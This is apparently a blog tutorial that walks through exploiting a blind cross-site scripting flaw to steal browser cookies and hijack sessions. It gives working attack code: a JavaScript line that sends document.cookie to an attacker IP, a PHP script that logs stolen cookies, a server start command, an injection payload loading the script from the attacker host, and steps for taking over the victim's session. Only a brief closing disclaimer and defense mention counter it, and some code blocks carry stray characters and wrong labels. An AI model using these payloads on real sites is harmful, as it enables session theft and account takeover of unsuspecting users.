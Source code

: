 ```yaml
---
title: "Exploiting Blind XSS to Steal Cookies: A Step-by-Step Guide"
seoDescription: "Learn how to exploit blind XSS vulnerabilities to steal cookies using a detailed, real-world step-by-step guide"
datePublished: Tue May 07 2024 07:13:53 GMT+0000 (Coordinated Universal Time)
cuid: clvw218uc000009l5awln1yt5
slug: exploiting-blind-xss-to-steal-cookies-a-step-by-step-guide
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1715066028086/a6c86cd1-f643-4939-80c4-0416964df7b2.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1715066024418/53bdb807-f379-4def-87f4-dced4d309899.png

---
```


Introduction: In this blog post, we'll walk through the process of exploiting a blind XSS vulnerability to steal cookies from a victim's browser. We'll use a real-world example to demonstrate each step, explaining which machine and IP address is involved at each stage.

Prerequisites:

* Two machines:
    
    * Attacker Machine (Pwn Machine): This is the machine you'll use to set up the malicious server and receive the stolen cookies. Let's assume its IP address is `10.10.15.213`.
        
    * Victim Machine: This is the machine where the vulnerable web application (Site A) is running. We'll assume it's accessible at `http://siteA.com`.
        

Step 1: Set up the Malicious Server (Attacker Machine - 10.10.15.213)

1. On the attacker machine, create a new directory to host your malicious scripts. For example, `/var/www/html/malicious`.
    
2. Inside the `malicious` directory, create two files: `script.js` and `index.php`.
    

Step 2: Create the Malicious JavaScript Payload (Attacker Machine - 10.10.15.213)

1. Open the `script.js` file on the attacker machine.
    
2. Add the following JavaScript code to `script.js`:
    

This code creates a new image object and sets its `src` attribute to a URL that points to the `index.php` script on the attacker machine, with the victim's cookies appended as a query parameter.

````sql
```jsx
enew Image().src='<http://10.10.15.213:81/index.php?c='+document.cookie>;

```
````

Step 3: Create the PHP Script to Receive Stolen Cookies (Attacker Machine - 10.10.15.213)

1. Open the `index.php` file on the attacker machine.
    
2. Add the following PHP code to `index.php`:
    

This script checks if the `c` parameter is present in the GET request, retrieves its value (the stolen cookie), appends it to a log file named `stolen_cookies.txt`, and prints the stolen cookie value.

````sql
```php
<?php
if (isset($_GET['c'])) {
    $stolenCookie = $_GET['c'];
    $logFile = 'stolen_cookies.txt';
    file_put_contents($logFile, $stolenCookie . "\\n", FILE_APPEND);
    echo "Stolen Cookie: " . $stolenCookie;
}
?>

```
````

Step 4: Start the Malicious Server (Attacker Machine - 10.10.15.213)

1. On the attacker machine, navigate to the `malicious` directory.
    
2. Start a PHP web server by running the following command:
    

This starts a PHP server listening on port 81 of the attacker machine.

````sql
```
Copy codephp -S 10.10.15.213:81

```
````

Step 5: Inject the Malicious Payload (Victim Machine - [http://siteA.com](http://siteA.com))

1. On the victim machine, navigate to the vulnerable web application (Site A) in a web browser.
    
2. Identify the vulnerable input field where you discovered the blind XSS vulnerability.
    
3. Inject the following malicious payload into the vulnerable field:
    

This payload closes any preceding tags, then includes a `<script>` tag that loads the `script.js` file from the attacker's machine.

````sql
```html
'><script src=http://10.10.15.213:81/script.js></script>

```
````

Step 6: Trigger the XSS Payload (Victim Machine - [http://siteA.com](http://siteA.com))

1. Submit the form or perform the necessary action to trigger the XSS payload on Site A.
    
2. The victim's browser will execute the injected script, which loads and executes the `script.js` file from the attacker's machine.
    

Step 7: Receive the Stolen Cookies (Attacker Machine - 10.10.15.213)

1. On the attacker machine, monitor the PHP server logs.
    
2. When the victim's browser executes the `script.js` file, it sends a request to the `index.php` script on the attacker's machine, including the stolen cookies as a query parameter.
    
3. The `index.php` script logs the stolen cookies in the `stolen_cookies.txt` file and prints them in the server response.
    

Step 8: Verify the Stolen Cookies (Attacker Machine - 10.10.15.213)

1. On the attacker machine, open the `stolen_cookies.txt` file.
    
2. You should see the stolen cookies logged in the file, along with the victim's IP address.
    
3. You can also check the server logs to see the printed stolen cookie value.
    

Step 9: Use the Stolen Cookies (Attacker Machine - 10.10.15.213)

1. On the attacker machine, open a web browser.
    
2. Install a cookie editor extension or use the browser's developer tools to modify cookies.
    
3. Navigate to the vulnerable web application (Site A) in the browser.
    
4. Replace the existing cookies with the stolen cookies obtained from the victim.
    
5. Refresh the page, and you should be logged in as the victim user, effectively hijacking their session.
    

Conclusion: By following these steps, you can exploit a blind XSS vulnerability to steal cookies from a victim's browser. Remember to use this knowledge responsibly and only on systems you have permission to test.

It's crucial to validate and sanitize user input on the server-side to prevent XSS vulnerabilities. Implementing proper input validation, output encoding, and Content Security Policy (CSP) can help mitigate the risk of XSS attacks.

I hope this step-by-step guide helps you understand the process of exploiting blind XSS and stealing cookies. Stay safe and happy hacking!
